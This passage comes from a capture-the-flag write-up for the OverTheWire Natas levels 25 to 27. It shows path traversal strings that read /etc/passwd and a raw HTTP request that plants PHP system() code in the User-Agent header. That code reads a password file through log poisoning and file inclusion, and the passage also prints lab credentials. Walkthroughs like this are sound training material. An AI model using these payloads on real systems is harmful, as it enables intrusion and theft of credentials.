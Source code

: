 ```html
lang = ../../etc/passwd
```

It keeps the log in the file. So getting the log file using LFI

```html
POST /index.php HTTP/1.1
Host: natas25.natas.labs.overthewire.org
Cache-Control: max-age=0
Authorization: Basic bmF0YXMyNTpHSEY2WDdZd0FDYVlZc3NIVlkwNWNGcTgzaFJrdGw0Yw==
Upgrade-Insecure-Requests: 1
User-Agent: <?php system("cat /etc/natas_webpass/natas26;echo 'natas password'") ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Cookie: __utma=176859643.1991032151.1593787332.1593787332.1593787332.1; __utmc=176859643; __utmz=176859643.1593787332.1.1.utmcsr=natas22-experimenter.natas.labs.overthewire.org|utmccn=(referral)|utmcmd=referral|utmcct=/; PHPSESSID=5ls5ag19m6nja8k9lkhrdhgii2
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 124

lang=..././..././..././..././..././..././..././..././..././var/www/natas/natas25/logs/natas25_5ls5ag19m6nja8k9lkhrdhgii2.log
```

Now on log file we get the password: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

### lvl 26-27

![/assets/images/natas/Untitled%209.png](/assets/images/natas/Untitled%209.png)

Looking at code there is unserialization on user controllable cookie value drawing without any sanitization. and also looking at the source code below we can see there is a class with the magic methods present.
